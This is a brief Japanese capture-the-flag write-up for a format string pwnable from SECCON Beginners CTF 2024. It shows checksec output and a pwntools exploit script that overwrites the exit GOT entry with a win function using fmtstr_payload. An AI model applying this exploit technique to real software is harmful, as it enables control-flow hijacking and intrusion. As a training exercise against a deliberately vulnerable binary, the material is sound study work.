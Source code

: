 # Format String Vulnerability
- https://feneshi.co/ctf4b2024writeup/#pure_and_easy
- https://docs.pwntools.com/en/stable/fmtstr.html
# 解説
```
pwndbg> checksec
File:     /mnt/e/work/ctf/SECCON_Beginners_CTF_2024/pwnable/pure-and-easy/chall
Arch:     amd64
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```
- Partial RELRO は GOT overwrite が使える
```python
#!/usr/bin/env python3
from pwn import *
exe = context.binary = ELF('./chall')
io = process([exe.path])
log.info(str(io.recvuntil(b'> ')))
# io.sendline(b"AAAAAAAA,"+bytes(",".join(["%p" for _ in range(20)]), "utf-8"))
io.sendline(fmtstr_payload(6, {
    exe.got['exit']: exe.symbols['win']
}))
log.info(str(io.recvall()))
```
